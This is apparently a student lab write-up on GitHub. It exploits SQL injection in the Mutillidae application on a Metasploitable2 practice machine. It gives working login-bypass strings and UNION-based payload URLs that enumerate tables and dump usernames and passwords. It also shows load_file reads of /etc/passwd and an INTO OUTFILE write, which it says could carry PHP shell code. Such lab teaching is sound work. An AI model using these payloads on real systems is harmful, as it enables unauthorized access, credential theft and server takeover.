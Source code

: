 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![325657525-5d072558-8cfd-437f-839b-f491e2351bfc](https://github.com/pradeepasri26/sqlinjection/assets/131433142/91d38cf4-7261-4878-9c71-1724992006ed)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![325657622-28300288-17b2-4d70-b1d6-3ee0a018feac](https://github.com/pradeepasri26/sqlinjection/assets/131433142/baea06ec-f598-4e58-8971-9075a635be44)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![325657717-262a0baa-afa6-41d8-a0da-47b7cc4c5064](https://github.com/pradeepasri26/sqlinjection/assets/131433142/7eb6f9e6-bf60-4bcd-880c-b0ee52169c99)
Click on the menu Login/Register and register for an account
![325657806-cccb4d70-5d32-49a9-b7a2-c6607c283c59](https://github.com/pradeepasri26/sqlinjection/assets/131433142/5e50537d-a76a-4c01-abce-7b748fc8f6ca)
Click on the link “Please register here”
![325657884-46eba855-7aa9-4d47-9850-30a245a2a76d](https://github.com/pradeepasri26/sqlinjection/assets/131433142/4c275f89-7aed-4a8d-a982-f06197f2ba5d)
Click on “Create Account” to display the following page
![325657969-cb7680e8-8069-4289-88dd-48c982251980](https://github.com/pradeepasri26/sqlinjection/assets/131433142/090badfa-881b-4c42-b4e5-4e0c037aedd1)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![325658073-de7691c2-6b5c-446e-8c60-f93887b9fcc1](https://github.com/pradeepasri26/sqlinjection/assets/131433142/e9bd9257-5df2-4d1b-9448-d29e0c6a413c)
Click “Login”. The logged in page will show as below:
![325658149-5166ecc3-20f0-4ad6-83d5-ec9406b88479](https://github.com/pradeepasri26/sqlinjection/assets/131433142/a0b9be05-0d47-4e5f-a85e-171803756883)
Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.

![325658297-a93a6bdb-b7ab-4a94-ba98-dc5b0d0e2ee6](https://github.com/pradeepasri26/sqlinjection/assets/131433142/a4b597c5-733a-4a79-be07-08db50834432)
Click the login button and you will see it enter into the administrator page.
![325658372-b7b5d131-fcc9-4084-8173-4cb7fe583f0b](https://github.com/pradeepasri26/sqlinjection/assets/131433142/c53ed745-89e2-4ea2-bc4f-b99bcff1a7cf)

## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info” After logging out, Now choose the menu as shown below


![325659156-c0bbbd4b-b1d1-4f88-b68b-c49962f7c5c6](https://github.com/pradeepasri26/sqlinjection/assets/131433142/ed692090-a94d-4649-91f7-832557d6c24a)
![325659228-4a23cbda-e95d-401b-863b-17356523aa32](https://github.com/pradeepasri26/sqlinjection/assets/131433142/f4a9d297-0723-48d3-85ef-29ed77f38824)
![325659315-3659e291-8c8d-42ef-8b97-7d013eba1725](https://github.com/pradeepasri26/sqlinjection/assets/131433142/69e12e90-e470-46e2-b5f7-0023c4ad590d)
![325659403-832ae9e4-aa1f-4bc2-80d8-0279af80c82c](https://github.com/pradeepasri26/sqlinjection/assets/131433142/b6ccf61d-4fa8-4b31-b0b7-8305c7599ef7)
![325659478-37e5a6fa-51cf-40c7-b33e-28b6d7ccb109](https://github.com/pradeepasri26/sqlinjection/assets/131433142/01523eee-2a66-4776-8cb2-366f1d77fafb)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![325659617-08512259-59b7-487b-9e1d-e6bc0a37dbae](https://github.com/pradeepasri26/sqlinjection/assets/131433142/cd807a3d-4a16-47a0-9bc0-95578dad990c)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.
The browser url of this info page need to be modified with the url as below: http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![325659859-7e932a84-99b5-4b27-a7e4-0bb732ca8290](https://github.com/pradeepasri26/sqlinjection/assets/131433142/af01eef3-148b-4a93-94e7-94b815bd7340)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![325659955-4c68e9ec-cb59-44dc-8a1f-3e56b3af0041](https://github.com/pradeepasri26/sqlinjection/assets/131433142/92c6eaae-156f-4d7b-adf8-268c47e5d09f)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![325660091-daadc619-ff42-4c80-b4f3-846d4f8c1ced](https://github.com/pradeepasri26/sqlinjection/assets/131433142/5e28b185-ba4f-4ca6-8d3e-c5eafa1105a7)
As it is having 5 columns the query worked fine and it provides the correct result
![325660277-66a57a6f-0bf7-4bfd-bb4a-96a6aae3dc7a](https://github.com/pradeepasri26/sqlinjection/assets/131433142/1c131d98-1b5f-4221-9e19-c567aab00d8d)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![325660562-8d42416e-2ba9-4fdf-a24f-b1c4f75a7231](https://github.com/pradeepasri26/sqlinjection/assets/131433142/d6df498b-cd3d-4b30-b7f4-5eae6f23467b)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![325660664-64cccd61-4c32-44d5-b146-133df4cefbd9](https://github.com/pradeepasri26/sqlinjection/assets/131433142/23e4c2ee-c204-4658-9c78-2c7b082584be)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![325660765-8d2cf032-acc3-43f8-925d-f32ed0bf113e](https://github.com/pradeepasri26/sqlinjection/assets/131433142/43360278-c4d0-4c0a-ad5f-4d57108381bc)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![325660845-bda602fd-6721-4d3c-8a06-1997773608d3](https://github.com/pradeepasri26/sqlinjection/assets/131433142/70faccc5-468e-4ea6-8124-fda9ceace43a)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![325660962-7e2d45fc-92cf-4973-a51a-4ad7b6132d07](https://github.com/pradeepasri26/sqlinjection/assets/131433142/6decfa12-727f-4450-b3dd-1f379b8c7b3b)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![325661053-5dfa03df-fb62-420e-94c4-218e55944dcc](https://github.com/pradeepasri26/sqlinjection/assets/131433142/8413565a-6e8d-4682-a66f-71d7215adf58)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![325661146-a196e92c-39a6-45d9-9f5e-aad62c02d897](https://github.com/pradeepasri26/sqlinjection/assets/131433142/876c9aed-a000-4bf0-afe4-20b9ef109227)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![325661369-ce52fb71-a979-4e73-93fc-64c9a2678cd9](https://github.com/pradeepasri26/sqlinjection/assets/131433142/f6ac4e0c-3bd2-4331-9c17-ed2df2c37732)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
